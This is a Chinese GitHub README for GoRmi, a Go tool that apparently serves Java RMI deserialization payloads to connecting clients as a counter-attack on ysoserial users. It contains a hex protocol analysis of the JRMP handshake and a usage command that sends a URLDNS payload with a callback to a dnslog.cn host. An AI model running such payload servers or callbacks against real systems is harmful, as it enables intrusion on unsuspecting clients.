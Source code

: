 # GoRmi

## 介绍

该项目是通过go语言实现防止rmi利用被反置的问题。[反序列化小子捕获器-反制ysoserial](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098663&idx=1&sn=fc048826005d4786ab56679861b1c43d&chksm=803c66aeb74befb88fc8e2f5e51853f33cc207ceaa1208936b1d9892a77cf3bdeb33b884f6b1&mpshare=1&scene=23&srcid=12291XhDYwX8icWSjvPyf5zl&sharer_sharetime=1640758586260&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

通过简单的协议分析。

![image-20211230010433011](img/image-20211230010433011.png)

```java
client--->server
    4a524d4900024b
    length:7
Header:
    0x4a 0x52 0x4d 0x49 Version Protocol
Version:
    0x00 0x01
Protocol:
    StreamProtocol
    SingleOpProtocol
    MultiplexProtocol
StreamProtocol:
    0x4b
SingleOpProtocol:
    0x4c
MultiplexProtocol:
    0x4d
    
server--->client
	4e00093132372e302e302e310000xxxx  随机 为客户端的随机port
	length:16
	4e 长度 服务端的主机名 随机port
	
client--->server
	000b 31302e32332e37312e3334 00000000      11	
	前面2个字节是后面ip的长度16进置
	xx ip xxxx
	length:17
Server -> Client
空

client--->server
(yso中带的)
50aced00057722000000000000000000000000000000000000000000000000000144154dc9d4e63bdf
length:41
	
server--->client
51aced0005770f01e4d810120000017e0572075e8004757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007078700000000274000c48656c6c6f5365727669636574001270776e656433373233303338373837303030

client--->server
52

server--->client
53

client--->server
恶意数据
```

## 使用

在cli文件夹中进行编译，然后就可以利用

```
GoRmi.exe --ip 127.0.0.1 --port 9001 --payload urldns  --cmd "http://wb72qk.dnslog.cn"
```

项目中是通过二进制数据实现的gadgets，所以有一部分gadget不好构造(太懒了)，所以就没有全部完成。感兴趣的师傅可以进行pr操作。

谢谢！！！

## 特别说明

因为自己不擅长go语言，所以参考了大哥4ra1n的[Gososerial](https://github.com/EmYiQing/Gososerial)项目，并且在atao大哥的帮助下完成了该项目。

可能你感觉代码写的非常垃圾，确实是这样的，不过还是希望帮助到你。

## 最后
**如果感觉不错，希望给出你宝贵的star。**
